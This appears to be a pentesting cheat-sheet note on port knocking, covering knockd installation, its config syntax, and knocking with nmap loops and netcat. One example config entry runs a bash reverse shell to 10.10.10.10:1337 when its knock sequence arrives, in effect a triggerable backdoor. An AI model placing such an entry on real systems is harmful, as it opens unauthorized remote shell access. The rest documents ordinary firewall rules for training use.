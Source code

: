 # Port Knocking

[As a security conecpt is has positives and negatives but generally consider bad](https://security.stackexchange.com/questions/1194/port-knocking-is-it-a-good-idea), MITM attacks sniff packets or if the knock-daemon fails via log file mismanagement.

## Knock
```bash
apt-get install knockd
knock $ip $ports-space-seperated
```

Configure syntax
```bash
[options]
		logfile = /var/log/knockd.log
# Example
[Name]
		sequence = 455,15,31337
		seq_timeout = 15
		command = /bin/bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/1337 <&1'
		tcpflags = syn
# Open and Close SSH
[OpenSSH]
		sequence = 69,15,1337
		seq_timeout = 15
		command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
		tcpflags = syn
[CloseSSH]
		sequence = 31337,8008,8008
		seq_timeout = 15
		command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j REJECT
		tcpflags = syn
```

```bash
sudo /etc/init.d/knockd restart
```

## Nmap/bash
Refactored one-liner provided by[sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/port_knocking.html) into a script found at my [AllTheHackingScripts]()
```bash
# Set $IP and replace $X with port number to knock
for port in $X; do nmap -Pn --host_timeout 201 --max-retries 0 -p $port $IP; done;
```

## Netcat
```bash
nc $IP $PORT
nc $IP $PORT
nc $IP $PORT
nc $IP $PORT
```

## References

[sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/port_knocking.html)